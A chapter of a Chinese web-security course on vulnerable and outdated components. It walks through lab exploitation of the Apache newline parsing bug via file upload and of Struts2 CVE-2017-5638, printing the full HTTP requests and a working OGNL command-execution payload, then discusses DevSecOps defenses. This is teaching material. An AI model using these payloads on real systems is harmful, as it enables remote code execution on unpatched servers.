







- 00 导读 解读OWASP Top10 2021.md.html
- 00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md.html
- 01 失效的访问控制：攻击者如何获取其他用户信息？.md.html
- 02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md.html
- 03 敏感数据泄露：攻击者如何获取用户账户？.md.html
- 04 权限不合理：攻击者进来就是root权限？.md.html
- 05 CSRF：为什么用户的操作他自己不承认？.md.html
- 06 加密失败：使用了加密算法也会被破解吗？.md.html
- 07 弱编码：程序之间的沟通语言安全吗？.md.html
- 08 数字证书：攻击者可以伪造证书吗？.md.html
- 09 密码算法问题：数学知识如何提高代码可靠性？.md.html
- 10 弱随机数生成器：攻击者如何预测随机数？.md.html
- 11 忘记加“盐”：加密结果强度不够吗？.md.html
- 12 注入（上）：SQL注入起手式.md.html
- 13 注入（下）：SQL注入技战法及相关安全实践.md.html
- 14 自动化注入神器（一）：sqlmap的设计思路解析.md.html
- 15 自动化注入神器（二）：sqlmap的设计架构解析.md.html
- 16 自动化注入神器（三）：sqlmap的核心实现拆解.md.html
- 17 自动化注入神器（四）：sqlmap的核心功能解析.md.html
- 19 失效的输入检测（上）：攻击者有哪些绕过方案？.md.html
- 20 失效的输入检测（下）：攻击者有哪些绕过方案？.md.html
- 21 XSS（上）：前端攻防的主战场.md.html
- 22 XSS（中）：跨站脚本攻击的危害性.md.html
- 23 XSS（下）：检测与防御方案解析.md.html
- 24 资源注入：攻击方式为什么会升级？.md.html
- 25 业务逻辑漏洞：好的开始是成功的一半.md.html
- 26 包含敏感信息的报错：将安全开发标准应用到项目中.md.html
- 27 用户账户安全：账户安全体系设计方案与实践.md.html
- 28 安全配置错误：安全问题不只是代码安全.md.html
- 29 Session与Cookie：账户体系的安全设计原理.md.html
- 30 HTTP Header安全标志：协议级别的安全支持.md.html
- 31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md.html
- 32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md.html
- 33 SSRF：穿越边界防护的利刃.md.html
- 34 Crawler VS Fuzzing：DAST与机器学习.md.html
- 35 自动化攻防：低代码驱动的渗透工具积累.md.html
- 36 智能攻防：构建个性化攻防平台.md.html
- 大咖助场 数字证书，困境与未来.md.html
- 春节策划（一） 视频课内容精选：Web渗透测试工具教学.md.html
- 春节策划（三） 一套测试题，看看对课程内容的掌握情况.md.html
- 春节策划（二） 给你推荐4本Web安全图书.md.html
- 结束语 无畏前行.md.html
- 捐赠
31 易受攻击和过时的组件：DevSecOps与依赖项安全检查
你好，我是王昊天。
不知道你是否听说过木桶效应？我们可以看下图这个木桶，假设它的底面为一整块木板，桶身由15块木板组成。现在，我们需要用这个木桶装尽可能多的水，显而易见，它能装水的数量仅与木板中高度最低的相关。

其实对于Web应用的安全性来说，木桶效应同样有效。假设我们的Web应用运用了多个组件，例如Struts、Apache，那么它的安全强度也是由这些组件中最脆弱的一个所决定。所以在我们开发一个Web应用时，需要确保每一个组件都不存在已知的安全问题。
那么这节课，就让我们一起学习下Web应用中组件的安全问题吧。
易受攻击和过时的组件
首先，我们需要了解Web应用中具有哪些组件。
通常来讲，Web应用一般都包含三个基础组件，Web应用服务组件、Web数据库组件以及Web客户端浏览器组件。其中，我们很容易知道Web应用服务器是用于运行Web应用的，Web数据库服务器是用于给Web应用提供需要的数据，而Web客户端浏览器则可以用来展示Web应用返回的内容，同时决定用户与Web应用的交互方式。
其实上述三个基础组件本身，也是由多个组件所构成的，例如Web应用服务器可能会包含Struts、Apache应用等多个组件，而Struts、Apache内部也会包含很多组件。所以组件是一个很灵活的说法，你可以将它简单地理解为是一个独立功能单元。
随着Web应用的功能越来越复杂，应用中组件的个数也在不断提升，这会对Web应用的安全造成一定的威胁，因为我们难以确保每个组件都是安全的。这是一个棘手的问题，它在OWASP 2021中荣获第六位，下面让我们具体地学习一些典型的易受攻击和过时的组件吧。
Apache换行解析漏洞
在之前的学习中，我们知道了Apache是一款使用很广泛的Web应用组件，尽管它的功能非常强大，但是在过去的版本中，它也存在换行解析漏洞，所以我们如果用这款工具时，要注意它的版本信息。
这个换行解析漏洞影响的版本为Apache 2.4.10 - 2.4.29，接下来让我们通过示例来具体的学习Apache换行解析漏洞。

这是一个文件上传靶场，我们需要上传一个test.php文件，点击提交后，我们可以看到页面返回了bad file。发现被拦截之后，我查看靶场源码，看到了下面的过滤代码：
if(in_array($ext, ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'])) {
exit('bad file');
}
它是基于黑名单的过滤方式，所以我们无法直接上传php相关后缀的文件名。但是，我们可以尝试利用换行解析漏洞去进行测试。于是，我们开启BurpSuite，拦截文件上传的报文如下：
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 298
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5b4HReBGGEbOB2B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
------WebKitFormBoundaryD5b4HReBGGEbOB2B
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: text/php
<?php phpinfo();?>
------WebKitFormBoundaryD5b4HReBGGEbOB2B
Content-Disposition: form-data; name="name"
test.php
------WebKitFormBoundaryD5b4HReBGGEbOB2B--
在倒数第二行test.php的最后加上一个空格符，然后点击Hex格式，找到我们刚刚输入的空格，将它改为0a。

然后将这个修改后的报文发送出去，响应中不再提示bad file。然后我们访问test.php%0a路径，获得响应如下：

可以看到，我们上传文件test.php成功，并且成功输出了其中的PHP语句，我们看到Apache的版本信息为2.4.10，确实是存在换行解析漏洞的版本。
回顾我们的攻击过程，我们将文件的后缀改为了 .php%0a，这个后缀是可以通过检测的，因此Web应用会允许 test.php%0a 的上传。到这里都是合理的，可是问题就发生在Apache在解析这个文件时，会将它解析为一个PHP文件，并调用PHP解释器来执行它。
事实上，%0a 代表换行符。Apache 是使用 .php\( 的正则匹配方式来检测 php 后缀的文件，而 \) 是匹配字符串中结尾的位置，且如果存在换行符，则匹配换行符为结尾。所以，在上述示例中，我们利用了换行符 %0a 与 $ 匹配，使得我们上传的文件test.php%0a被当作PHP文件解析。
这就是Apache换行解析漏洞，它的危害性还是很大的，所以我们在开发Web应用时，需要避免使用漏洞存在的版本。
接下来，让我们学习另一个典型的不安全组件问题，即Struts2远程代码执行漏洞。
Struts2远程代码执行漏洞
在学习这个漏洞之前，我们先来看下Struts2是什么。
Struts2是一个Java Web应用框架，它可以帮助我们更容易地去构建一个Web应用。在简单地了解了Struts2之后，我们开始学习Struts2远程代码执行漏洞产生的原理。
事实上，Struts2漏洞发生在文件上传过程中，我们知道上传和下载在Web应用中属于常用功能，可是Struts2本身并没有提供这个功能，而是选择调用模块Jakarta来实现文件的上传。这个Jakarta在处理文件上传请求时，会对异常信息进行OGNL表达式解析处理，这就是导致漏洞产生的核心因素。
攻击者可以访问使用Struts2制作的Web应用，并且用BurpSuite捕获报文，将HTTP请求头中的Content-Type改为包含multipart/form-data的OGNL恶意命令。这样Struts2在接收到这个请求后，由于Content-Type的值包含multipart/form-data，所以认为这是一个文件上传请求，进而交给Jakarta进行处理。可是我们的Content-Type中包含了恶意的OGNL代码，导致Jakarta在处理它时会发现异常，并将异常信息交给OGNL表达式解析处理。这样，我们的恶意OGNL代码就会被执行。
这就是Struts2远程代码执行漏洞，该漏洞被称为CVE-2017-5638，它的影响版本为Struts 2.3.5 - Struts 2.3.31以及Struts 2.5 - Struts 2.5.10。接下来，让我们通过实战，来亲自体会它的威力吧！
实战演练
我们进入实战环节，登录谜团（mituan.zone）并选择【易受攻击和过时的组件CVE-2017-5638】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。

接下来我们刷新页面，用BurpSuite拦截请求，获取到如下报文：
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
下面，我们给它添加一个Content-Type请求头，并将包含multipart/form-data字符串的恶意payload作为它的值。
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type:
%{(#_='multipart/form-data').(#[email protected]@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls -l').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C7D2C0C8353A3D952C576487D42216E3
Connection: close
payload是一段OGNL语句，你可能看不懂它，不用担心，这里我们只需要知道，在payload中cmd的值指定为 ls -l，这样就可以让Web应用执行 ls -l 命令，并将输出进行返回。将我们精心修改后的报文发送出去，你就可以看到页面响应内容变为如下：

可以看到，我们注入的命令 ls -l 的结果已经返回在页面上，攻击成功。
到这里，你已经学习了易受攻击和过时组件会给Web应用造成的威胁，接下来我们来学习如何抵御组件不安全的问题。
防御方式
为了保证我们的Web应用不会因为组件问题，导致威胁的存在，我们需要了解开发的Web应用中所有的组件信息，然后对它们进行检查，判断其中是否有不安全的组件存在，如果存在就对它们进行限制或修改，解决安全隐患，同时持续关注这些组件的安全信息。
这样我们就可以尽可能地减少组件安全性问题发生的概率。不过，上述措施实施起来还是比较困难的，毕竟一个Web应用可能会用到很多的组件。为了解决这个问题，我们可以利用DevSecOps来开发我们的应用。下面，我们来学习DevSecOps是什么以及它是如何保护Web应用组件安全的。
DevSecOps
想要学习DevSecOps，我们首先要了解DevOps是什么。
DevOps即有质量保证的开发与运维，它代表的是一组过程、方法与系统的统称，用于促进开发、技术运营以及质量保障部门之间的沟通、协作与调整。
在DevOps模式下，运维人员会在项目开发期就介入到开发过程中，了解开发人员使用的系统架构和技术路线，从而制定适当的运维方案。而开发人员也会在运维的初期参与到系统部署中，并提供系统部署的优化建议。这样不仅可以加深开发人员和运维人员的感情，还能使得彼此更了解应用的整体情况，有助于提高实施效率。
DevSecOps相比较而言多了Sec三个字母，事实上，它确实就是将安全性无缝集成到DevOps的每个阶段。它统一了开发活动、操作支持和安全检查。在DevSecOps中，对代码的任何更改都会触发安全检查，其中若存在易受攻击和不安全的组件，就会很快被发现及更改。

总结
在这节课程中，我们学习了易受攻击和过时的组件问题。
首先，我们对组件进行了理解，知道了它其实是一个灵活的概念，我们可以将它理解为独立的功能单元。
之后，我们通过对Struts以及Apache这两个组件安全性的分析，结合实战，切身地了解了不安全的组件会给我们整个Web应用的安全性造成极大的威胁。
最后，我们学习了如何抵御组件安全性问题，即通过DevSecOps方式开发我们的Web应用，对所用的组件及依赖项进行及时的检测。这样，就可以很好地保护我们的Web应用啦！
思考题
你还知道哪些组件安全问题吗？以及如何防御？
欢迎在评论区中分享。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.